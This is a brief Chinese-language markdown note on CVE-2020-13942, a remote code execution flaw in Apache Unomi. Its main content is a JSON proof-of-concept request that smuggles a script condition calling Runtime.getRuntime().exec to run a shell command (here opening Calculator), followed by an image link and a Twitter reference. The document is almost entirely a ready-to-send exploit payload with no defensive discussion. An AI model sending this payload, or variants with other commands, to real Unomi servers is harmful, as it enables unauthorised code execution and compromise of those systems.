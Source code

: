 # CVE-2020-13942 Apache Unomi 远程代码执行


PoC：

```json
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"}
```

![](media/16097302096726/16097302307813.jpg)


ref：

https://twitter.com/pyn3rd/status/1328920545442680837